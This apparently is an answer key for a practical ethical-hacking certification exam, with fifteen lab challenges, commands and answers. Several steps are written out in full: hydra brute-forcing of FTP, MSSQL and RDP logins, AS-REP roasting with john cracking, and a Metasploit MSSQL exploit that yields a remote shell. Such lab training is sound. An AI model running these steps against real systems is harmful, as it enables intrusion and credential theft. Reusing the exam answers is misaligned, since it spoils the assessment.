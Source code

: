 
**Challenge** 1:
You are assigned to perform brute-force attack on a linux machine from 192.168.10.0/24 subnet and crack the FTP credentials of user nick. An exploitation information file is saved in the home directory of the FTP server. Determine the Vendor homepage of the FTP vulnerability specified in the file. (Format: aaaaa://aaa.aaaaaaaa.aaa/)

- nmap -p 22 192.168.10.0/24 --open (you found 4 ips)
- ping found ips to know which is linux with ttl value <= 64
- hydra -l nick -P password.txt ftp://192.168.10.111
- Password found is apple
- ftp 192.168.10.111
- login ftp with that password 
- get 520125.py file and open to get vendor homepage

Answer: https://www.crushftp.com/

**Challenge** 2:
An intruder performed network sniffing on a machine from 192.168.10.0/24 subnet and obtained login credentials of the user for moviescope.com website using remote packet capture in wireshark. You are assigned to analyse the Mscredremote.pcapng file located in Downloads folder of EH Workstation-1 and determine the credentials obtained. (Format: aaaa/aaaaa)

- open Mscredremote.pcapng file in wireshark
- filter http.request.method == POST
- extend HTML Form Url
 
Answer: kety/apple

**Challenge** 3:
You are assigned to analyse a packet capture file ServerDoS.pcapng located in Downloads folder of EH Workstation-2 machine. Determine the UDP based application layer protocol which attacker employed to flood the machine in targeted network.
Note: Check for target Destination port. (Format: Aaaaa Aaaaaaa Aaaaaaaa)

- open file in wireshark you will found dest port is 26000
- search 26000 udp in google

Answer: Quake Network Protocol
 
**Challenge** 4:
A severe DDoS attack is occurred in an organization, degrading the performance of a ubuntu server machine in the SKILL.CEH network. You are assigned to analyse the DD_attack.pcapng file stored in Documents folder of EH workstation -2 and determine the IP address of the attacker trying to attack the target server through UDP. (Format: NNN.NNN.NN.NNN)

- Filter for UDP

Answer: 192.168.10.144

**Challenge** 5:
You are assigned to analyse PyD_attack.pcapng file stored in Downloads folder of EH Workstation -2 machine. Determine the attacker IP machine which is targeting the RPC service of the target machine. (Format: NNN.NN.NN.NN)

- open wireshark
- filter tcp.port == 135
- you find one ip with dst port 135

Answer: 172.30.10.99

**Challenge** 6:
An incident handler identified severe DDoS attack on a network and provided report using Anti-DDoS Guardian tool. You are assigned to analyse the reports submitted by the IH team which are stored in "C:\Users\Admin\Documents\Anti-DDoS" directory of the EH Workstation-1 and determine the attacker IP which has transmitted more number of packets to the target machine. (Format: NNN.NNN.NN.NNN)

- open report export.txt file
- find remote ip with higher no of packets

Answer: 192.168.10.222

**Challenge** 7:
You are assigned to analyse the domain controller from the target subnet and perform AS-REP roasting attack on the user accounts and determine the password of the vulnerable user whose credentials are obtained. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: aNaaN*NNN)

- python3 GetNPUsers.py SKILL.com/ -no-pass -usersfile ~/users.txt -dc-ip 192.168.0.222
- copy the hash from output and paste in a txt file a.txt
- john --wordlist=rockyou.txt ~/a.txt

Answer: c3ll0@123
 
**Challenge** 8:
A client machine under the target domain controller has a misconfigured SQL server vulnerability. Your task is to exploit this vulnerability, retrieve the MSS.txt file located in the Public Downloads folder on the client machine and determine its size in bytes as answer. Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: N)

1.	scan all networks with open port 1433 | nmap -p 1433 192.168.10.0/24 --open
2.	Try bruteforce all ips with open 1433 port
3.	hydra -U username.txt -P password.txt 192.168.10.144 mssql
4.	user = Server_mssrv  and Password = Spidy
5.	 python3 /Ad-tools/impacket/examples/mssqlclient.py SKILL.com/Server_mssrv:Spidy@192.168.10.144  -port 1433
6.	Then type this [ SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell'; ]
7.	type exit.
8.	Goto msfconsole
9.	▪ use exploit/windows/mssql/mssql_payload ▪ set RHOST 192.168.10.144 ▪ set USERNAME Server_mssrv ▪ set PASSWORD Spidy ▪ set DATABASE msdb
10.	Exploit
11.	In meterpreter, type shell
12.	type cd /Users/Public/Downloads/  and type dir
13.	note the size of MSS.txt

Answer: 7 (Note: You can also crack ftp but this is the correct method to pass exam.)

**Challenge** 9:
You are assigned to crack RDP credentials of user Maurice from the target subnet 192.168.10.0/24 and determine the password as answer. Note: use Note: use users.txt and rockyou.txt files stored in attacker home directory while cracking the credentials. (Format: Aaaaaaa@NNNN)

- nmap -p 3389 192.168.10.0/24 --open
- hydra -l Maurice -P rockyou.txt 192.168.10.222 rdp

Answer: Pumpkin@1234

**Challenge** 10:
You are assigned to perform malware scanning on a malware file Tools.rar stored in Downloads folder of EH workstation-2 machine and determine the last four digits of the file’s SHA-256 hash value. (Format: aNNN)

- sha256sum Tools.rar

Answer: d282

**Challenge** 11:
You are assigned to monitor a suspicious process running in a machine whose log file Logfile.PML is saved in Pictures folder of the EH Workstation -2. Analyse the logfile and determine the Parent PID of the malicious file H3ll0.exe process from the log file. (Format: NNNN)

- Copy that log file to windows
- Install procmon.exe in the malware analysis folder
- open that file in procmon
- Search H3II0 and double click to open. now you find the Paren PID

Answer: 6952

**Challenge** 12:
You are tasked with analyzing the ELF executable file named Tornado.elf, located in the Downloads folder of EH Workstation-2. Determine the entropy value of the file up to two decimal places. (Format: N*NN)

- Copy that file to windows
- open that file with DIE tool inside the static malware analysis folder
- Click Entropy button to see value

Answer: 2.87
 
**Challenge** 13:
You are assigned to scan the target subnets to identify the remote packet capture feature that is enabled to analyse the traffic on the target machine remotetly. Scan the target subnets and determine the IP address using rpcap service. (Format: NNN.NNN.NN.NNN)

- nmap -p 2002 192.168.10.0/24

Answer: 192.168.10.144

**Challenge** 14:
An insider attack occurred in an organization and the confidential data regarding an upcoming event is sniffed and encrypted in a image file stealth.jpeg stored in Desktop of EH Workstation -2 machine. You are assigned to extract the hidden data inside the cover file using steghide tool and determine the tender quotation value. (Use azerty@123 for passphrase) (Format: NNNNNNN)

- steghide extract -sf stealth.jpg
- open hidden.txt

Answer: 3965222

**Challenge** 15:
Perform vulnerability search using searchsploit tool and determine the path of AirDrop 2.0 vulnerability. (Format: aaaaaaa/aaa/NNNNN.a)

- Searchsploit AirDrop 2.0

Answer: android/dos/46445.c

